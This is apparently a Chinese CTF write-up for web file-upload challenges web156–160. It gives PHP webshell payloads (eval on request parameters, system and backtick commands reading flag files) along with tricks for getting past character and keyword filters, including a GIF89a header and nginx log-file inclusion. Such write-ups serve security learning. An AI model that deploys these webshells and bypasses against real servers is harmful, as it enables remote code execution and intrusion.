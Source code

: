 看了师傅的 wp 发现是过滤了 `[]`

用 `{}` 绕过

```php
<?= eval($_REQUEST{'a'}); ?>

<?= eval($_REQUEST{1}); ?>
```

## web157

`[]` `{}`, `;` 都被过滤了

考虑到机器是 Linux, 使用 `system()` 执行文件查看 flag.php

`php` 被过滤了, 但是可以用通配符 `*`

```php
Gif89a
<?= system('cat ../flag.*')?>
```

最后一个分号可以省略 (一句话的情况下)

之后访问 /upload/index.php 右键查看 flag

## web158

同上

## web159

又过滤了 `()`

用反引号绕过

```php
<?= `cat ../flag.*`?>
```

## web160

反引号和空格也被过滤了, 没想出来

网上 wp 的思路是通过文件包含

nginx 默认日志地址为 `/var/log/nginx/access.log`

默认格式

```log
log_format access '$remote_addr – $remote_user [$time_local] "$request"' '$status $body_bytes_sent "$http_referer"' '"$http_user_agent" $http_x_forwarded_for';
```

include

注意 log 被过滤了, 需要拼接字符串
```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```
